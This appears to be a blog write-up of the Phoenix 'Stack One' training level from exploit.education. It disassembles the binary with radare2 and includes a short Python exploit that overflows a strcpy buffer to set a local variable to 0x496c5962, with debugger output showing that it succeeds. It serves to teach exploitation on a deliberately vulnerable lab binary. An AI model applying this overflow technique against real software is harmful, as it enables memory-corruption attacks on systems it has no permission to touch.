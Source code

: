 ```yaml
---
layout: post
title:  "Phoenix x86 Stack One"
date: "2019-10-10 15:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Stack One is very much like the first level with a few minor exceptions, which will be introduced shortly.

The use of `rabin2` is essential to understand a little bit about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-one
arch     x86
baddr    0x8048000
binsz    3651
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

So as to avoid repetition, the information about the binary is almost identical to that of the previous level. To sum up, this is a 32-bit Linux ELF with no protection against stack-based buffer overflows, among others.

Time to disassemble the binary with `radare2`.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-one
{% endhighlight %}

{% highlight nasm %}
[0x08048380]> aas
Cannot analyze at 0x080485f0
[0x08048380]> afl
0x080482fc    1 17           sym._init
0x080484d0    7 277  -> 112  sym.frame_dummy
0x080485b0    5 49           sym.__do_global_ctors_aux
0x080485e1    1 12           sym._fini
0x08048450    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   47 524  -> 625  sym..interp
0x08048380    1 62           entry0
0x08048370    1 6            sym.imp.__libc_start_main
0x080486f8    1 14           loc.__GNU_EH_FRAME_HDR
0x08048714    3 34           sym..eh_frame
0x08048750    1 44           obj.__EH_FRAME_BEGIN
0x080483c0    4 49   -> 40   sym.deregister_tm_clones
0x08048515    6 145          main
0x08048340    1 6            sym.imp.puts
0x08048350    1 6            sym.imp.errx
0x08048320    1 6            sym.imp.strcpy
0x08048330    1 6            sym.imp.printf
0x08048360    1 6            sym.imp.exit
[0x08048380]> s main
[0x08048515]> pdf
/ (fcn) main 145
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483b4
|           0x08048515      8d4c2404       lea ecx, [arg_4h]
|           0x08048519      83e4f0         and esp, 0xfffffff0
|           0x0804851c      ff71fc         push dword [ecx - 4]
|           0x0804851f      55             push ebp
|           0x08048520      89e5           mov ebp, esp
|           0x08048522      53             push ebx
|           0x08048523      51             push ecx
|           0x08048524      83ec50         sub esp, 0x50
|           0x08048527      89cb           mov ebx, ecx
|           0x08048529      83ec0c         sub esp, 0xc
|           0x0804852c      68f0850408     push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x80485f0 ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"
|           0x08048531      e80afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048536      83c410         add esp, 0x10
|           0x08048539      833b01         cmp dword [ebx], 1
|       ,=< 0x0804853c      7f0f           jg 0x804854d
|       |   0x0804853e      83ec08         sub esp, 8
|       |   0x08048541      683c860408     push str.specify_an_argument__to_be_copied_into_the__buffer ; 0x804863c ; "specify an argument, to be copied into the \"buffer\""
|       |   0x08048546      6a01           push 1                      ; 1
|       |   0x08048548      e803feffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804854d      c745f4000000.  mov dword [var_ch], 0
|           0x08048554      8b4304         mov eax, dword [ebx + 4]
|           0x08048557      83c004         add eax, 4
|           0x0804855a      8b00           mov eax, dword [eax]
|           0x0804855c      83ec08         sub esp, 8
|           0x0804855f      50             push eax
|           0x08048560      8d45b4         lea eax, [var_4ch]
|           0x08048563      50             push eax
|           0x08048564      e8b7fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x08048569      83c410         add esp, 0x10
|           0x0804856c      8b45f4         mov eax, dword [var_ch]
|           0x0804856f      3d62596c49     cmp eax, 0x496c5962
|       ,=< 0x08048574      7512           jne 0x8048588
|       |   0x08048576      83ec0c         sub esp, 0xc
|       |   0x08048579      6870860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x8048670 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x0804857e      e8bdfdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048583      83c410         add esp, 0x10
|      ,==< 0x08048586      eb14           jmp 0x804859c
|      |`-> 0x08048588      8b45f4         mov eax, dword [var_ch]
|      |    0x0804858b      83ec08         sub esp, 8
|      |    0x0804858e      50             push eax
|      |    0x0804858f      68b4860408     push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962 ; 0x80486b4 ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"
|      |    0x08048594      e897fdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x08048599      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048586
|      `--> 0x0804859c      83ec0c         sub esp, 0xc
|           0x0804859f      6a00           push 0
\           0x080485a1      e8bafdffff     call sym.imp.exit           ; void exit(int status)
{% endhighlight %}

Below is the output of `agf`, which outputs the basic blocks function graph.

{% highlight nasm %}
[0x08048515]> agf
[0x08048515]>  # int main (int argc, char **argv, char **envp);
                   .---------------------------------------------------------------------------------------.
                   |  0x8048515                                                                            |
                   | (fcn) main 145                                                                        |
                   |   int main (int argc, char **argv, char **envp);                                      |
                   | ; var int32_t var_4ch @ ebp-0x4c                                                      |
                   | ; var int32_t var_ch @ ebp-0xc                                                        |
                   | ; arg int32_t arg_4h @ esp+0x4                                                        |
                   | ; DATA XREF from entry0 @ 0x80483b4                                                   |
                   | lea ecx, [arg_4h]                                                                     |
                   | and esp, 0xfffffff0                                                                   |
                   | push dword [ecx - 4]                                                                  |
                   | push ebp                                                                              |
                   | mov ebp, esp                                                                          |
                   | push ebx                                                                              |
                   | push ecx                                                                              |
                   | sub esp, 0x50                                                                         |
                   | mov ebx, ecx                                                                          |
                   | sub esp, 0xc                                                                          |
                   | ; sym..rodata                                                                         |
                   | ; 0x80485f0                                                                           |
                   | ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"         |
                   | push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education    |
                   | ; int puts(const char *s)                                                             |
                   | call sym.imp.puts;[oa]                                                                |
                   | add esp, 0x10                                                                         |
                   | cmp dword [ebx], 1                                                                    |
                   | jg 0x804854d                                                                          |
                   `---------------------------------------------------------------------------------------'
                           f t
                           | |
                           | '--------------------------------------------.
    .----------------------'                                              |
    |                                                                     |
.----------------------------------------------------------------.    .---------------------------------------------.
|  0x804853e                                                     |    |  0x804854d                                  |
| sub esp, 8                                                     |    | mov dword [var_ch], 0                       |
| ; 0x804863c                                                    |    | mov eax, dword [ebx + 4]                    |
| ; "specify an argument, to be copied into the \"buffer\""      |    | add eax, 4                                  |
| push str.specify_an_argument__to_be_copied_into_the__buffer    |    | mov eax, dword [eax]                        |
| ; 1                                                            |    | sub esp, 8                                  |
| push 1                                                         |    | push eax                                    |
| ; void errx(int eval)                                          |    | lea eax, [var_4ch]                          |
| call sym.imp.errx;[ob]                                         |    | push eax                                    |
`----------------------------------------------------------------'    | ; char *strcpy(char *dest, const char *src) |
                                                                      | call sym.imp.strcpy;[oc]                    |
                                                                      | add esp, 0x10                               |
                                                                      | mov eax, dword [var_ch]                     |
                                                                      | cmp eax, 0x496c5962                         |
                                                                      | jne 0x8048588                               |
                                                                      `---------------------------------------------'
                                                                              f t
                                                                              | |
                                                                              | '-------------------.
              .---------------------------------------------------------------'                     |
              |                                                                                     |
          .--------------------------------------------------------------------------------.    .------------------------------------------------------------------------------.
          |  0x8048576                                                                     |    |  0x8048588                                                                   |
          | sub esp, 0xc                                                                   |    | mov eax, dword [var_ch]                                                      |
          | ; 0x8048670                                                                    |    | sub esp, 8                                                                   |
          | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                                     |
          | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x80486b4                                                                  |
          | ; int puts(const char *s)                                                      |    | ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"       |
          | call sym.imp.puts;[oa]                                                         |    | push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962    |
          | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                             |
          | jmp 0x804859c                                                                  |    | call sym.imp.printf;[od]                                                     |
          `--------------------------------------------------------------------------------'    | add esp, 0x10                                                                |
              v                                                                                 `------------------------------------------------------------------------------'
              |                                                                                     v
              |                                                                                     |
              '------------------------------------------------------------------.                  |
                                                                                 | .----------------'
                                                                                 | |
                                                                           .-----------------------------------.
                                                                           |  0x804859c                        |
                                                                           | ; CODE XREF from main @ 0x8048586 |
                                                                           | sub esp, 0xc                      |
                                                                           | push 0                            |
                                                                           | ; void exit(int status)           |
                                                                           | call sym.imp.exit;[oe]            |
                                                                           `-----------------------------------'
{% endhighlight %}

Unlike the previous level, the input is not read from STDIN, but, rather, is passed as an argument to the binary. Also, the `gets` call is replaced by `strcpy`, which also allows stack-based buffer overflows considering that it does not restrict the size of bytes to be copied.

The buffer's size is still 64 bytes and we need to overflow the stack so that the value of the local variable `var_ch` is overwritten with `0x496c5962`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x62\x59\x6c\x49')
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-one `cat pattern`
{% endhighlight %}

In order to verify the stack contents before and after the `strcpy` call, a breakpoint is needed at the address of that call.

{% highlight nasm %}
[0xf7f20d4b]> aas
Cannot analyze at 0x080485f0
[0xf7f20d4b]> db 0x08048564
[0xf7f20d4b]> dc
Welcome to phoenix/stack-one, brought to you by https://exploit.education
hit breakpoint at: 8048564
{% endhighlight %}

The value of `var_ch` before the call is:

{% highlight nasm %}
[0xf7eed929]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x00000000                                   ....
{% endhighlight %}

The stack before the call:

{% highlight nasm %}
[0x08048564]> dr
eax = 0xffa8ae6c
ebx = 0xffa8aed0
ecx = 0xffa8ada0
edx = 0x00000000
esi = 0xffa8af44
edi = 0x00000002
esp = 0xffa8ae50
ebp = 0xffa8aeb8
eip = 0x08048564
eflags = 0x00000292
oeax = 0xffffffff
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x0000005c  ............\...
0xffa8ae70  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8ae80  0x00000011 0xf7f5819c 0x00000000 0x080482cc  ................
0xffa8ae90  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8aea0  0x00000000 0x00000000 0x00000000 0x00000000  ................
{% endhighlight %}

and after the call:

{% highlight nasm %}
[0x08048564]> dso
hit breakpoint at: 8048569
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x58585858  ............XXXX
0xffa8ae70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8aea0  0x58585858 0x58585858 0x58585858 0x496c5962  XXXXXXXXXXXXbYlI
{% endhighlight %}

Note that the value of the local variable `var_ch` has been overwritten, as is shown below:

{% highlight nasm %}
[0x08048564]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x496c5962                                   bYlI
{% endhighlight %}

Continuing with the execution:

{% highlight plaintext %}
[0x08048564]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level has many similarities with the first level, but with one noteable difference. That is, the objective was not to simply overwrite the value of a local variable, but to overflow the stack such that the variable contains a specific value.